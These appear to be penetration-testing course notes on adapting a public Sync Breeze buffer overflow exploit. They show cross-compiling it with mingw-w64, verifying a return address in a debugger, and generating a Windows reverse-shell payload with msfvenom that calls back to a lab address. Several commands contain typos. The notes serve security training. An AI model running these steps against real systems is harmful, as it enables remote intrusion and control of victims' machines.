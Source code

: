 ## 13.1 Fixing Memory Corruption Exploits
### 13.1.3. Cross-Compiling Exploit Code

#### Installing the mingw-w64 cross-compiler in Kali
```Shell
sudo apt install mingw-w64
```
#### Using mingw-w64 to compile the code into a Windows Portable Executable (PE) file
```Shell
i686-w64-mingw32-gcc 42341.c -o synchbreeze_exploit.exe
```

#### If errors are encountered, Google to determine fix. Example: linker missing in winsock library
```Shell
i6868-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```
This time, mingw32 produced an executable without generating any compilation errors. With the _-l_ option, we can instruct mingw-w64 to search for the _ws2_32_ DLL and include it in the final executable via static linking

### 13.1.4. Fixing the Exploit

#### Verify return address
- Launch Immunity Debugger as administrator
- Click on *File > Attach*
- Select the *syncbrs* process
- Once attached, click on the *View* menu
- Click on *Executable Modules*
- Verify that **msvbvm60.dll** is not present by checking *Name* and *Path* values
#### Changing the Return Address
```
unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83
```

If we do not have a return address from a previously-developed exploit, we have a few options to consider. The first, and most recommended option, is to recreate the target environment locally and use a debugger to determine this address.

#### Using msfvenom to generate a reverse shell payload that fits our environment
```Shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=threat -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

#### Compile the exploit code using mingw-w64 to determine if it generates any errors
```Shell
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

#### Use wine to run a Windows exploit from Kali
```Shell
sudo wine syncbreeze_exploit.exe
```

## 13.2. Fixing Web Exploits

### 13.2.2. Selecting the Vulnerability and Fixing the Code

